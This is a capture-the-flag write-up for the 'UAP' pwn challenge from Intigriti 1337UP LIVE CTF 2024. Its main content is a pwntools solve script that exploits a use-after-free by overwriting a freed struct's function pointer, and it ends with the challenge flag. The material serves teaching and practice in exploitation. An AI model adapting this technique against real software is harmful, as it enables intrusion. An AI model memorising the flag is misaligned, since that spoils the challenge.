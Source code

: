 ```yaml
---
name: UAP (2024)
event: Intigriti 1337UP LIVE CTF 2024
category: Pwn
description: Writeup for UAP (Pwn) - 1337UP LIVE CTF (2024) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# UAP

## Challenge Description

> I found a UFO! Wait, they call them UAPs now? Whatever, feel free to take take a look 🔎

## Solution

Wow, I wish I made a writeup for this a couple of months ago when I made the challenge 😬 It's the night before the CTF and I'm tired, so this will be quick.

### solve.py

{% code overflow="wrap" %}
```python
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

exe = './drone'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug'

# Offset to the 'start_route' function pointer in the Drone struct
offset = 16

# Start program
io = start()

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

def menu_choice(choice):
    io.sendline(str(choice).encode())
    result = io.recvuntil(b"Choose an option:")
    return result

# Step 1: Deploy Drone 1
menu_choice(1)

# Step 2: Retire Drone 1 to trigger UAF (free its memory)
menu_choice(2)
io.sendlineafter(b"Enter drone ID to retire: ", b"1")
io.recvuntil(b"Drone 1 retired.")

# Step 3: Enter drone route to overwrite memory (this should reuse freed memory)
menu_choice(4)
manual_printer_addr = elf.symbols['print_drone_manual']
payload = flat({offset: p64(manual_printer_addr)})

# Send payload to overwrite the freed memory
io.sendlineafter(b"Enter the drone route data: ", payload)

# Step 4: Start the drone's route (trigger the overwritten function pointer)
menu_choice(3)
io.sendlineafter(b"Enter drone ID to start its route: ", b"1")

# Interact with the process to receive the output (manual/flag)
io.recvuntil(b'INTIGRITI')
info('INTIGRITI' + io.recvline().decode())
```
{% endcode %}

Flag: `INTIGRITI{un1d3n71f13d_fly1n6_vuln3r4b1l17y}`

Told ya ✅

If you want to learn more about use-after-free vulnerabilities, I've made [detailed videos](https://www.youtube.com/watch?v=YGQAvJ__12k) in the past 🙂
